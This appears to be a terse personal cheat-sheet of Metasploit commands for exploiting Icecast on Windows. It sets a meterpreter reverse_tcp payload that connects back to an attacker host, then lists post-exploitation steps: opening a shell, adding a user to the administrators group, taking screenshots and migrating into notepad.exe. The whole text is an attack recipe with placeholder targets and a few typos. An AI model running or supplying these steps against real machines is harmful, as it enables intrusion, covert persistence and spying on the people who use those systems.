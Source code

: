 
## run icecast with admin priv on windows


	smfconsole  
	search icecast  
	use exploit/xx 
	set payload windows/meterpreter/reverse_tcp  
	set rhost  xx
	set lhost  xx
	
	sysinfo  
	getuid  
	ps  
	
	shell
	#add user
	#add user on admin group 
	net localgroup administrators
	
	screenshot -p /tmp/screen/jpg
	
	getpid
	ps -S notepad.exe
	migrate <id>
	get pid
